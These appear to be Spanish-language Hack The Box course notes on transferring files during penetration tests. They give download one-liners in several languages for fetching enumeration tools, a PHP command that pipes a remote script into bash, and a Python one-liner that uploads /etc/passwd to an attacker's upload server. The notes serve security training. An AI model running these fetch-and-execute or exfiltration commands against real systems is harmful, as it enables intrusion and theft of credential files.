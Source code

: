
## Python

Python es un lenguaje de programación muy popular. Actualmente, se admite la versión 3, pero es posible que encontremos servidores en los que aún exista la versión 2.7 de Python. `Python`Puede ejecutar comandos de una sola línea desde una línea de comandos del sistema operativo utilizando la opción `-c`. Veamos algunos ejemplos:

#### Python 2 - Download


```c
b0ySie7e@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
#### Python 3 - Download

```c
b0ySie7e@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

#### PHP Download with File_get_contents()

```c
b0ySie7e@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### PHP Download with Fopen()

```c
b0ySie7e@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP Download a File and Pipe it to Bash

```c
b0ySie7e@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Other Languages

#### Ruby - Download a File

```c
b0ySie7e@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl - Download a File

```c
b0ySie7e@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

#### Download a File Using JavaScript and cscript.exe

El siguiente código JavaScript se basa en [esta](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) publicación y podemos descargar un archivo con él. Crearemos un archivo llamado `wget.js`y guardaremos el siguiente contenido:

```c
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") es un lenguaje Active Scripting desarrollado por Microsoft que sigue el modelo de Visual Basic. VBScript se ha instalado de forma predeterminada en todas las versiones de escritorio de Microsoft Windows desde Windows 98.

El siguiente ejemplo de VBScript se puede utilizar en base a [esto](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs) . Crearemos un archivo llamado `wget.vbs`y guardaremos el siguiente contenido:

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
#### Download a File Using VBScript and cscript.exe

```c
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload Operations using Python3

#### Starting the Python uploadserver Module

```c
$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Uploading a File Using a Python One-liner

```c
b0ySie7e@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Dividamos esta línea en varias líneas para comprender mejor cada parte.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

